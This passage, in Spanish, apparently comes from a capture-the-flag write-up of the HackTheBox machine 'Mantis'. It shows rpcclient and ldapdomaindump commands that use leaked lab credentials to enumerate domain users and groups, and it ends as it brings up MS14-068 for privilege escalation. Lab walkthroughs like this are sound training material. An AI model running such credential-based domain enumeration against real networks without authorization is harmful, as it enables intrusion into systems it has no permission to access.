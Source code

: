 No vemos nada interesante, así que nos quitamos la montura. Podemos probar a listar uusarios del dominio con `rpcclient` proporcionándole las credenciales que tenemos:

```bash
❯ rpcclient -U 'james%J@m3s_P@ssW0rd!' 10.10.10.52 -c "enumdomusers"
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[james] rid:[0x44f]
```

Podemos listar usuarios del dominio. Para tener la información en un formato más bonito y mas claro; nos instalamos la siguiente utilidad:

[LDAPDomainDump](https://github.com/dirkjanm/ldapdomaindump)

```bash
❯ ldapdomaindump -u 'WORKGROUP\james' -p 'J@m3s_P@ssW0rd!' -o /var/www/html/ 10.10.10.52
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Ahora desde el navegador consultado `localhost` y vemos una serie de archivos, aquellos con extensión `html` nos representa la información en un formato amigable sobre el dominio:

![""](/assets/images/htb-mantis/mantis_dominio.png)

Como podemos ver, el unico usuario dentro del grupo **Administrators** es el usuario **Administrator**; nosotros como el usuario **james**, estamos en el grupo **Remote Desktop Users**, pero no tenemos el servicio RDP visible. En este punto, investigando un poco, vemos que exite una vulnerabilidad descrita en **MS14-068** que nos permitiría elevar privilegios de manera que el usuario **james** pueda tener los privilegios máximos:
